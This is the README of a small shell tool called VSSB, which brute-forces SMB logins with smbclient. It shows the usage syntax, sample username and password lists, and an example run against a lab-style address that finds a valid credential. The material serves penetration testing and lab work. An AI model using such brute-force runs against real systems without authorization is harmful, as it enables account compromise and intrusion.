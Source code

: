 # VSSB
Very simple SMB brute force.
\
\
Some complex tools may fail sometimes and miss a valid combination of username/password: this script just tries to login multiple time via "smbclient".
\
\
```
usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123
```
\
Considering the following file (containing a list of users):
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
smith
luca
```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password
```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./vssb.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.123

starting...

Found WORKGROUP@smith:Thestrokes23

done!
```

